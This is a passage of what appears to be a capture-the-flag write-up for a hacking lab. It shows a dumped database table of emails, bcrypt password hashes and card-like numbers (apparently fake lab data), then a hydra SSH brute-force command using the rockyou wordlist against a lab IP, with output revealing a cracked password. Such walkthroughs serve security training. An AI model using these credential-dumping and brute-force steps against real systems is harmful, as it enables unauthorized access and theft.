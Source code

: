 ```
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{br3ak1ng_4nd_3nt3r1ng} |
| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```

We confirm user tables , we can got first flag.
- [x] flag2

Now, we need into the target machine, I think we can use ssh brute force, and user can try user mandrews(flag1) and server-admin.  

`hydra -l server-admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.68.32`

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-11-22 06:44:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.68.32:22/
[22][ssh] host: 10.10.68.32   login: server-admin   password: inuyasha
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2022-11-22 06:45:43
```
